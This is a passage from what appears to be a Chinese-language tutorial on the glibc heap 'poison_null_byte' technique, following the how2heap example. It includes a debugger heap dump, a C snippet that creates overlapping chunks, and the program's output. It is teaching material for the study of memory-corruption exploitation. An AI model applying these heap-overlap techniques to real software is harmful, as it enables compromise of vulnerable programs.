 ```
0x6032b0:    0x0000000000000000    0x0000000000000061
0x6032c0:    0x00007ffff7dd1b78    0x0000000000603110 &lt;--free_chunk_b3
0x6032d0:    0x0000000000000000    0x0000000000000000
...
0x603310:    0x0000000000000060    0x0000000000000000
0x603320:    0x0000000000000210    0x0000000000000110 &lt;--chunk_c


gef➤  heap bins unsorted 
────────────────────[ Unsorted Bin for arena 'main_arena' ]────────────────────
[+] Found base for bin(0): fw=0x603110, bk=0x6032b0
 →   FreeChunk(addr=0x603120,size=0x320)   →   FreeChunk(addr=0x6032c0,size=0x60)
```

申请这个超大的chunk，通过写入数据便能修改chunk_b2的任意数据。

```
fprintf(stderr, "Finally, we allocate 'd', overlapping 'b2'.n");
    d = malloc(0x300);
    fprintf(stderr, "d: %pn",d);

    fprintf(stderr, "Now 'd' and 'b2' overlap.n");
    memset(d,'D',0x300);

    fprintf(stderr, "New b2 content:n%sn",b2);
```

此时我们能够通过对chunk_d写入数据（D），修改chunk_b2的数据。

```
b2: 0x15fd230
Current b2 content:
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Now we free 'b1' and 'c': this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').
Finally, we allocate 'd', overlapping 'b2'.
d: 0x15fd120
Now 'd' and 'b2' overlap.
New b2 content:
DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDD
```

poison_null_byte，实际上通过覆盖pre inuse和pre size来伪造一个很长的fake chunk（当然，how2heap的案例更加隐晦一些，并没有直接覆盖pre size，而是fake了另一个），覆盖其他chunk造成一个类似double free（但是chunk之间是包含关系）的效果。此时我们申请的超长chunk_d就可以控制chunk_b2的内部数据。之后可以结合fastbin_attack或者house技术来完成利用。



## 0x03 案例分析

